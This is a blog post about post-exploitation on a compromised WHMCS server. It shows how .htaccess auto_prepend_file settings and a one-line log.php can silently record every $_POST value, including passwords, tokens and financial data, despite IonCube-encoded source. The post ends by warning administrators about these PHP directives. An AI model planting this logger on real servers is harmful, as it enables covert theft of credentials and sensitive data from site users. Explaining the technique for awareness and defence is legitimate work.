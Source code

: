 ```yaml
---
layout: post
title: Being Evil against Encoded PHP Files
date: 2017-06-28 01:00 +0700
description: Post-Exploitation against Encoded Files (IonCube or Zend Guard) for Server-Side PHP $_POST Logging.
tags: 
    - post-exploitation
    - interception
    - ioncube
    - whmcs
#author: Nazariy Markuta
#comments: false
#share: true
image: /assets/img/being-evil-against-encoded-php-files
---
```

Lets say a server has been exploited and an attacker wants to intercept data coming from a web application in order to gain sensitive information such as plaintext server passwords. Lets also say that application is WHMCS. One of the requirements is [IonCube Loader](https://www.ioncube.com/php_encoder.php) which protects PHP source code from easy observation, theft and **change** by compiling into bytecode.

### Sample of WHMCS with IonCube encoded source code
![WHMCS IonCube sample]({{page.image}}/whmcs-ioncube-sample.png)

When an encoded Ioncube file is changed in any way a 500 internal server error occurs.

A simple trick of getting round files protected by IonCube or Zend Guard loaders for explicitly including our own code to perform malicious things, is by utilizing the PHP [**auto_prepend_file**](http://php.net/manual/en/ini.core.php#ini.auto-prepend-file "php manual") directive and the way a web server is configured. This of course means the attacker has already gained access and enough privileges. I've setup MAMP v4.1.1 running PHP v7.0.15 (Latest that Ioncube can support) with WHMCS v7.2.2.

When using PHP as an Apache module, you can change the PHP configuration settings using **.htaccess** files if AllowOverride Options is set. Example below shows a **.htaccess** file that sets two values under WHMCS installation document_root. 
* An include path that locates our script
* A filename that'll be automatically added before any PHP document

```
php_value include_path ".:/Applications/MAMP/htdocs/whmcs"
php_value auto_prepend_file "log.php"
```

A PHP script called **log.php** is created for storing $\_POST values.
```php
<?php file_put_contents('/Applications/MAMP/htdocs/whmcs/templates_c/post_data.txt', var_export($_POST, true)); ?>
```
For simplicity's sake, both .htaccess and log.php files are placed in the same path. 

### Example of Intercepted Data
![WHMCS IonCube post\_data.log]({{page.image}}/whmcs-ioncube-data.png)

ALL values that are sent through the super global variable $\_POST are intercepted. Given the nature of WHMCS as a hosting Content Management System it can be extremely useful for attackers to implement such loggers. Plaintext; **server configurations, passwords, financial information, tokens, private keys** and much more.


In case of Nginx or other web servers, the attacker would change the main PHP configuration (**php.ini**) file by adding a value to the **auto_prepend_file** directive. Keeping in mind that this would effect every PHP script when loaded, the attacker may adjust the script to only target specific variables, or else the log file will be filled with junk and uninteresting information, not to mention increasing in size quite quickly.


Administrators should be wary of **auto_prepend_file** and **auto_append_file** PHP directives and its potential uses to attackers, backdoors of this nature can be particularly harmful to organisations processing sensitive data.
